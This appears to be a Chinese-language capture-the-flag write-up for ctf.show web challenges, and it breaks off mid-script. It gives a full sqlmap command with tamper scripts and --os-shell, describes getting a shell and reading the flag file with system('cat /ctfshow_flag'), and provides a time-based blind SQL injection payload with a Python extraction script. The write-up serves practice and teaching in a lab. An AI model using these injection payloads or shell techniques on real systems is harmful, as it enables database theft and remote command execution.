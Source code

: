 ```sql
sqlmap -u http://6dbfae24-2cec-463d-b96c-45fd34fb84fc.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --batch --safe-url="http://6dbfae24-2cec-463d-b96c-45fd34fb84fc.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=0bs54hboh98dsq24ct61otlnch" --referer="http://6dbfae24-2cec-463d-b96c-45fd34fb84fc.challenge.ctf.show/sqlmap.php" --tamper=space20a.py,base64_reverse.py --os-shell
```
我这里只成功了一个，没有直接弹shell
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1639584340830-582eb7d8-51bc-41f5-9bca-d0a3b2a91216.png)
访问一下这个页面
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1639584369317-b79989f7-a8da-4872-b835-00040a662dfb.png)
是sqlmap构造的一个文件上传，方便我们传码然后getshell
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1639584452743-ba29464e-4f70-4f73-89ea-a5e0857de742.png)
这里也是直接getshell了，最后就是找flag：system('cat /ctfshow_flag');
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1639584525211-f738b064-c1be-426c-aff0-b23bedfdceba.png)

## web214（时间盲注）
这个题重点是在找注入点，比较点进去时间盲注啥也没有，看了大师傅的wp发现在index.php页面中有个这样的js文件：
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1639586812633-a6e28a26-074c-4f33-b7f8-1032ec4c2a55.png)
向api/index.php发送了post请求，然后测试发现是ip字段存在时间盲注，时间盲注和布尔盲注原理基本是一样的，举个例子：ip=1 or if(1=0,1,sleep(1))-- -很明显1=0是不正确的，那么就会执行sleep(1)，发现页面进入等待，1s多后出现回显，这就是简单的一种时间盲注，所以我们构造payload去查询一些字段，比如数据库名表名等等，然后根据页面响应时间的长短判断是否正确，进而爆破出答案，上脚本：

```python
'''
Author: KonDream
Date: 2021-12-16 00:31:18
LastEditors:  KonDream
LastEditTime: 2021-12-16 00:52:23
Description:  
'''
import requests

url = "http://0be5cdb6-57e9-4049-8635-e6abcddd8027.challenge.ctf.show/api/index.php"

flag = '' 
# 爆数据库名 ctfshow_flagx,ctfshow_info
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,flaga,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'"
# 爆字段
payload = "select flaga from ctfshow_flagx"

for i in range(1, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break

        data = {
            # 二分法查找字符，ascii值大则sleep
```